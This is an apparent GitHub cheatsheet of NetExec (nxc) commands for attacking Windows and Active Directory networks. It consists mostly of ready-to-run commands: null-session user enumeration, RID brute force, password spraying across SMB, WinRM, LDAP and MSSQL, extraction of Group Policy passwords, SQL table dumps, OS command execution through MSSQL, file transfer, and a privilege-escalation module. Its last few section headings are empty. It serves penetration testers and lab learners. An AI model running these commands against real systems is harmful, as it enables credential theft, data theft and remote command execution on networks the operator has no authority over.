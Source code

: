 # NXC Cheatsheet

## General

## Non-Credentialed enumeration
### Basic SMB Recon
* Scan for live targets
```bash
nxc smb 172.16.10.0/24
```
* Scan for smb signing disabled and generate a relay list
```bash
nxc smb 172.16.10.0/24 --gen-relay-list relaylist.txt
```

### Null/Anon Sessions
* Enumerate password policy
```bash
nxc smb 172.16.10.10 -u '' -p '' --pass-pol
```
* Export password policy to json and clean up
```bash
nxc smb 172.16.10.10 -u '' -p '' --pass-pol --export passpol.txt

# Clean up the exported json
sed -i "s/'/\"/g" passpol.txt
```
* Enumerate users
```bash
nxc smb 172.16.10.10 -u '' -p '' --users --export users.txt

# Clean up the exported list
sed -i "s/'/\"/g" users.txt
jq -r '.[]' users.txt > userslist.txt
```
* Enumerate users through RID brute force
> By default, --rid-brute only tries 4000 RIDs. Specify an upper limit with --rid-brute [max rid]  
```bash
nxc smb 172.16.10.10 -u '' -p '' --rid-brute
```
* Enumerating shares
```bash
nxc smb $IP -u '' -p '' --shares
```

### Password Spraying
#### Targeting SMB and general usage
* Create a list of usernames and password (for this example, users.txt and passwords.txt)
> -u and -p can both either take a single name, space separated names, or a filename
```bash
# multiple names and single password
nxc smb $IP -u name1 name2 name3 -p password1

# single name and multiple passwords
nxc smb $IP -u name1 -p password1 password2 password3

# lists
nxc smb $IP -u users.txt -p passwords.txt
```
> By default, nxc will stop on the first match it finds, to try them all, use --continue-on-success  
* Testing if credentials are still valid (testing one username per one password in a list
```bash
nxc smb $IP -u foundusers.txt -p matchingpasswords.txt --no-bruteforce --continue-on-success
```
* Testing Local Accounts
> Use the --local-auth flag to test local accounts
```bash
nxc smb $IP -u users.txt -p passwords.txt --local-auth --continue-on-success
```

#### Account Status
* Green = Username and password is valid
* Red = Invalid username and password
* Magenta = Username and password is valid, but auth unsuccessful
> Auth maybe unsuccessful for alot reasons, one of them being a password change is required  
* change a users password via impackets smbpassword
```bash
smbpassword -r [domain or IP] -u [user]
```
#### Targeting WinRM
> winrm gives command execution on the target
```bash
nxc winrm $IP -u foundusers.txt -p foundpasswords.txt --continue-on-success
```
#### Targeting LDAP
> ldap requires the use of FQDN's. Either add to hosts file or use the targets DNS
```bash
nxc smb ldap -u users.txt -p passwords.txt
```
#### Targeting MSSQL
> SQL, SSH, and FTP are unique in that they can use local users, their own local db users, or domain users. You must specify the domain name if trying a domain account.
```bash
#AD Domain account
nxc mssql $IP -u [user] -p [pass] -d [domain]

#Local Windows Account
nxc mssql $IP -u [user] -p [pass] -d .

#SQL Account
nxc mssql $IP -u [user] -p [pass] --local-auth
```
> Lookout for reused passwords. A DB admin may use the same credentials as their domain account just stored in the DB

## Credentialed enumeration
#### Accounts in group policy objects
```bash
# search for passwords in group policy objects
nxc smb $IP -u [user] -p [pass] -M gpp_password

# Search for autologin accounts
nxc smb $IP -u [user] -p [pass] -M gpp_autologin
```
#### Modules
* List all modules for the protocol
```bash
nxc smb -L
```
* View Module Options
```bash
nxc ldap -M user-desc --options

# example
nxc ldap -u [user] -p [pass] -M user-desc -o KEYWORDS=pwd,admin
```
#### MSSQL Enum & Attacks
* Execute an SQL Query
```bash
nxc mssql $IP -u [user] -p [pass] -q
```
* Useful DB Queries
```bash
# Get all DB names
nxc mssql $IP -u [user] -p [pass] -q 'SELECT name FROM master.dbo.sysdatabases'

# Get table names form a DB
nxc mssql $IP -u [user] -p [pass] -q 'SELECT table_name from [DB].INFORMATION_SCHEMA.TABLES'

# Dump contents of a table
nxc mssql $IP -u [user] -p [pass] -q 'SELECT * from [db name].[dbo].[table name]'
```
#### OS command execution
```bash
# Using cmd
nxc mssql $IP -u [user] -p [pass] -x whoami

# Using Powershell
nxc mssql $IP -u [user] -p [pass] -X whoami #Note the capital 'X'
```
> Remember you'll be executing commands under the context under which SQL is running. Not necessarily an admin  
#### Transferring Files
```bash
# Upload a file
nxc mssql $IP -u [user] -p [pass] --put-file [local file path] [target file path]
#ex
nxc mssql 172.168.15.10 -u julio -p [pass] --put-file /etc/passwd c:/users/public/passwd

# Download a file
nxc mssql $IP -u [user] -p [pass] --get-file [download file path] [save path]
#ex
nxc mssql 172.16.15.10 -u julio -p [pass] --get-file c:/users/public/passwd passwd
```
#### SQL Priv-Esc module
> Used to enumerate and escalate privileges via 'execute as login' and 'db_owner'  
```bash
# Enum privileges
nxc mssql $IP -u [user] -p [pass] -M mssql_priv

# Escalate if available
nxc mssql $IP -u [user] -p [pass] -M mssql_priv -o ACTION=privesc

# Rollback privileges
nxc mssql $IP -u [user] -p [pass] -M mssql_priv -o ACTION=rollback
## Admin Credentialed enumeration

## Remote Shell

## Modules

## Misc

## Database
